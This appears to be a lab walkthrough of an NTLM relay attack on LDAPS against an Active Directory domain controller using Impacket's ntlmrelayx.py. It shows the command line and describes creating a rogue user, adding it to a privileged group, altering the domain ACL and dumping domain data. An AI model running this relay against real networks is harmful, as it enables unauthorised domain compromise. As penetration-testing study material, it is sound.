Target LDAP Secure Service
Target LDAP Secure Servicekali@kali:$ cd /usr/share/doc/python3-impacket/examples
kali@kali:$ python3 ntlmrelayx.py -6 -wh attackerFox.daniele.local --target ldaps://<IPDomainController> --lootdir lootme
OPTIONS:
▪ --target<target> → in this case is the LDAP service(port 389) on the Domain Controller.
Most of the time is more likely to use LDAPS( the “S” means Secure ) because most Company have installed the certificate “Active Directory Certificate Services”
 ▪
 ▪
OUTPUT:  Now ntlmrelayx.py will check which Privileges this Account(DANIELE\pparker) has and take advantage from it
◇ Create User privileges found
  We can check on the target that the user is been added:
 username: HykjyYRePp and password: ~oc(fPL:j2len.}
◇ Add domain to Admin privileged Group:
 ◇ Modifying domain ACL
 ◇ Dump Domain info in the lootdir directory
 The folder specified in the command(in this case lootme) if not specified differently is been saved in our actual folder
 To view a file we can use Firefox:
kali@kali:/$ firefox domain_users_by_group.html
◇ Restore the ACL: to restore it at before the attack you can use the file with the extension .restore saved in the actual folder
